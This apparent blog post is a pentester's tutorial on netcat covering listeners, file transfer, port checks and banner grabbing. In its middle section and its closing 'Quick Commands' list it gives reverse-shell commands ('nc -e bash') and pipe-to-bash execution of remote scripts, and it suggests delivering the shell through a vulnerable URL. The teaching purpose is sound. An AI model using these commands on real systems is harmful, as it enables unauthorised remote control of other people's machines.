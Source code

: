 ```yaml
---
layout: post
title:  Netcat
date:   2019-11-09
categories: techniques
---
```


{:.text-centered}
# || NetCat: The Swiss Army Knife ||

![Banner](../../../../assets/img/netcat/Banner.jpeg){:.image-centered}


Netcat is a super useful tool for a pentester. It gives you the ability to use the raw sockets. Ncat is similar tool and that can be used on windows. Both are nearly same regarding functionality. Here I will discuss the most common uses of netcat. It can be used for port scanning,banner grabbing,chatting but most commonly it is used for getting a reverse shell and for file transfer.

To set up a Netcat listener on your linux system, type this command in your terminal:

    nc -nvlp 1337

n for no dns lookup,v for verbose output,l for listener and p for port.

To connect to a port:

    nc -np 1337 127.0.0.1

Now,if you want to tranfer a file through netcat,

    nc -nvlp 1337 < shell.sh

Just pipe your file to netcat listener,and when a client will connect to it,it will send the file automatically. This is super handy when you are testing a system and there is no curl or wget is installed.
To receive the file just connect to the netcat listener but ince connected it will print the content of the file to stdout (your terminal window) and this is not very much useful. Here you can do two thing.
One is pipe it to a file,

    nc -np 1337 127.0.0.1 > shell.sh

This way output will be saved into a file. Another thing you can do is,if that file is a shell script and you want to run it then you can directly run it by just piping to bash or whatever shell you have.

    nc -np 1337 127.0.0.1 | bash

This will execute the script. The last example is used when you want to enumerate target system,just get the enumeration script and run it with bash.

Now, another important use is netcat reverse shell. On your target system you can get a reverse shell with netcat.
Set up listener on your local machine:

    nc -nvlp 1337

Then connect to it from target system:

    nc -e bash 127.0.0.1 80

Once executed,you will get a bash shell from target system. You can send this command as payload through a file,through a vulnerable url or by any other exploit.

To find a a port is open or not on your target system just try to connect to that port from netcat and you will get a response back if that is open,this is handy for quick banner grabbing and confirming if that port is open or not. 

    nc 127.0.0.1 443

It will test if https is open or closed on your localhost. 
Netcat has lot more capabilitiesand you can read those from its man page or with nc --help command.

### **Quick Commands:**

 Set listener:

    nc -lvnp 1337

Connect to a socket:

    nc 127.0.0.1 1337

Send a file:

    nc -lvnp 1337 < file.txt

Get a file:
    nc 127.0.0.1 1337 > file.txt

Execute a shell script:

    nc 127.0.0.1 1337 | bash

 Reverse shell:

    nc -e bash 127.0.0.1 1337

Hope you enjoyed; Happy Hacking.